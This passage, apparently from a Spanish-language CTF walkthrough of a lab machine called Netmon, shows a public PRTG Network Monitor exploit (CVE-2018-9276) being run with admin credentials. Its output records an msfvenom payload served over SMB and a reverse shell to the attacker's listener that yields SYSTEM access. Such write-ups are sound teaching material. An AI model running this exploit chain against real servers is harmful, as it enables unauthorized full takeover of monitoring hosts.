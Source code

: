 `Ejecutamos` el `exploit` y ganamos acceso como `nt authority\system`

```
# python3 exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.16.16 --lport 443 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.129.230.176:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.16 LPORT=443 OUTPUT=/tmp/yblrbveq.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/justice-reaper/Desktop/Netmon/exploits/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/justice-reaper/Desktop/Netmon/exploits/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.16\VEKIWGVF]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.16.16:443 for the reverse shell!]
listening on [any] 443 ...
[*] Incoming connection (10.129.230.176,51467)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
connect to [10.10.16.16] from (UNKNOWN) [10.129.230.176] 51469
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
